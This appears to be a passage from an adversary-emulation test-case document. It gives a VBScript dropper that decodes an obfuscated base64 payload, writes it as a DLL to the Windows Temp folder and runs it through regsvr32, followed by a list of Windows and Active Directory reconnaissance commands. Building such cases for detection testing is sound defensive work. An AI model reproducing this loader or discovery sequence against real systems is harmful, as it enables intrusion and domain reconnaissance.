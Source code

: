 
#### Generating Test Cases

##### Initial Access and Execution

The VBScript file embedded in a password-protected ZIP, delivered via a link in the body of an email.

```vb
Data="T|V|q|Q|A|A|M|A|A|A|A|E|A|A|A|A|bart/|..."
Dim T, T0, T1
T0 = Replace(Data, "|", "")
T1 = Replace(T0, "bart", "")
T2 = Replace(T1, "biboran", "")
T = T2

Dim D,E,B,S
Set D=CreateObject("Microsoft.XMLDOM")
Set E=D.createElement("E")
E.DataType="bin.base64"
E.Text=T
B=E.NodeTypedValue

Set objShell = CreateObject( "WScript.Shell" )

quick_launch_location = "C://windows/Temp/0370-1.dll"

Set S=CreateObject("ADODB.Stream")
S.Open
S.Type=1
S.Write B
S.SaveToFile quick_launch_location,2
S.Close

objShell.Run "C://windows/system32/regsvr32.exe " & quick_launch_location
```

##### Discovery

The list of commands executed as part of the discovery phase of the scenario.

```sh
cmd.exe /c chcp >&2
ipconfig /all
systeminfo
net config workstation
nltest /domain_trusts
nltest /domain_trusts /all_trusts
net view /all /domain
net view /all
net group "Domain Admins" /domain
nltest /dclist:
net group "Domain Computers" /domain
net group "enterprise admins" /domain
quser
route print
```
